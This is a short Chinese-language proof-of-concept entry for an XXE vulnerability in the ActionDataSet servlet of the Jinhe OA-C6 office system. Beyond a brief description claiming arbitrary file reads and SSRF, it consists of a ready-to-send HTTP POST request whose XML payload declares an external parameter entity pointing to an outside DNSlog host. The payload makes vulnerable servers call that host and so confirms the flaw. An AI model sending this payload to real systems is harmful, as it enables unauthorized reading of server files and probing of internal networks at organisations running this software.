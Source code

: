  漏洞描述 

金和OA-C6系统接口ActionDataSet存在XXE漏洞，攻击者可利用xxe漏洞获取服务器敏感数据，可读取任意文件以及ssrf攻击，存在一定的安全隐患。

 POC 

```yaml
POST /jc6/servlet/ActionDataSet HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Content-Type: application/xml
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://323232323.xxxx.dnslog.cn"> %remote;]>
```





  